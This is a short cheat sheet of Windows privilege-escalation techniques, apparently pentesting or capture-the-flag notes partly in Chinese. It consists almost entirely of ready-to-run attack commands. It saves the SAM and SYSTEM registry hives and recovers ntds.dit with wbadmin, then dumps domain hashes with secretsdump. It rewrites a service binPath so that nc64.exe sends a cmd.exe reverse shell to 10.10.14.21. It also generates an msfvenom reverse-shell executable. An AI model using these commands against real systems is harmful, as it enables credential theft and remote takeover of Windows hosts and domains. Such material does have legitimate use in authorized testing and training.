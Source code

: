 
### `SeBackupPrivilege` Group Privilege Escalation
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#sebackupprivilege
- **0x01** sam2hash
```powershell
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

```bash
sudo sam2hash sam system
```

- **0x02**  wbadmin
```powershell
wbadmin start backup -quiet -backuptarget:\\dc01\c$\temp -include:c:\windows\ntds
```
`-quiet` ：在备份过程中禁止出现提示或消息
`-backuptarget` ：指定备份目标位置 : C 盘下的 temp 目录
`-include:` 指定备份的文件

```powershell
wbadmin get versions  (查看备份信息)
```

恢复备份:
```powershell
echo "Y" | wbadmin start recovery -version:02/12/2024-00:16 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\temp -notrestoreacl
```
`*Evil-WinRM* PS C:\temp> download ntds.dit` : Download File

Dump Hash
```bash
/usr/share/doc/python3-impacket/examples/secretsdump.py -ntds xxx -system xxx LOCAL
(ntds.dit And SYSTEM)
```



### `Server Operators` Group Privilege Escalation
允许以管理员的身份修改服务或配置，配合 `services` 查看正在运行的服务,然后修改二进制服务路径，类似于 linux 中的软链接。
先上传 nc64.exe
```powershell
sc.exe config [SERVICES] binPath="C:\Programdata\nc64.exe -e cmd.exe 10.10.14.21 2233"
```
然后 kali 监听，重启服务
```bash
sc.exe stop [SERVICES]
sc.exe start [SERVICES]
```


### 可修改服务二进制文件滥用
利用 Powerup.ps1 或者 Winpeas.exe 枚举到可修改，可疑文件的利用方式
[+] 确定 CanRestart 是否为 True (PowerUp.ps1)
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=2233 -f exe -o rev.exe
```
